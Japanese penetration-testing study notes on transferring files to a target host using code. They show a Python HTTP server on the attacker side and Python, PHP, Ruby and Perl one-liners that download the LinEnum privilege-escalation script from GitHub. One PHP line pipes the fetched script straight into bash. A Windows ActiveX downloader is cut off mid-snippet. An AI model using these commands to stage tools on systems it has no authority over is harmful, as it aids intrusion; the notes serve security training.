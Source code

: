 ## コードを使ったファイルダウンロード
- ターゲット側でコードを使って、ファイルをダウンロードする
- Linux では **Python、PHP、Perl、Ruby,JavaScript** などの言語が一般的に利用できる
- Windows にもインストールすることは可能(一般的ではないけど)
	- Windows では **`cscript` や `mshta`** などのデフォルトアプリケーションを使って **JavaScript や VBScript** を実行することができる
### 攻撃者側
pythonでHTTPサーバーとかを立ち上げて、アクセスさせる
 ```bash
python3 -m http.server 8081 &
 ```

  攻撃者サーバーを一時的にwebサーバーとする
### ターゲット側
#### Python2
```shell-session
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
#### Python3
```shell-session
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
#### PHP
##### File_get_contents()でPHPをダウンロード
```shell-session
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
##### Fopen()でPHPダウンロード
```shell-session
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
##### PHPでファイルをダウンロードし、それをBashにパイプする
```shell-session
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
##### Ruby
```shell-session
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```
##### Perl
```shell-session
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
#### Windows専用
##### JavaScript
- Windows コマンド プロンプトまたは PowerShell ターミナルから次のコマンドを使用して、JavaScript コードを実行し、ファイルをダウンロードできる
- 以下を`wget.js`で保存する
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
```